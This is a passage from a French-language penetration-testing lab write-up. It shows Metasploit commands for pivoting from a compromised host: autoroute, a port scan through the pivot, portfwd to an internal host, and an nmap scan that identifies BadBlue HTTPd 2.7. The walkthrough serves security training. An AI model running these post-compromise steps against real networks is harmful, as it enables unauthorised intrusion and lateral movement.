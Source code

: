 
### Phase 3 : Découverte du Réseau Interne

#### Analyse de la configuration réseau
```bash
# Dans le meterpreter de la machine compromise
ipconfig

# Identification des réseaux :
# - Interface publique : accès Internet
# - Interface privée : réseau interne (ex: 10.0.19.x/20)
```

#### Configuration du pivoting
```bash
# Ajout de la route vers le réseau interne
run autoroute -s 10.0.19.0/20

# Vérification des routes
run autoroute -p
```

### Phase 4 : Reconnaissance de la Deuxième Cible

#### Scan via pivot
```bash
# Mise en arrière-plan de la session
background

# Scan de ports via le pivot
use auxiliary/scanner/portscan/tcp
set RHOSTS demo2.ine.local
set PORTS 1-100
set THREADS 10
exploit

# Résultat : port 80 ouvert sur demo2.ine.local
```

#### Configuration du port forwarding
```bash
# Retour à la session meterpreter
sessions -i 1

# Configuration du port forwarding
portfwd add -l 1234 -p 80 -r 10.0.19.5  # IP de demo2.ine.local

# Vérification des redirections
portfwd list
```

#### Énumération du service via forwarding
```bash
# Scan du service redirigé (dans un nouveau terminal)
nmap -sV -sS -p 1234 localhost

# Résultat : BadBlue HTTPd 2.7 identifié
```
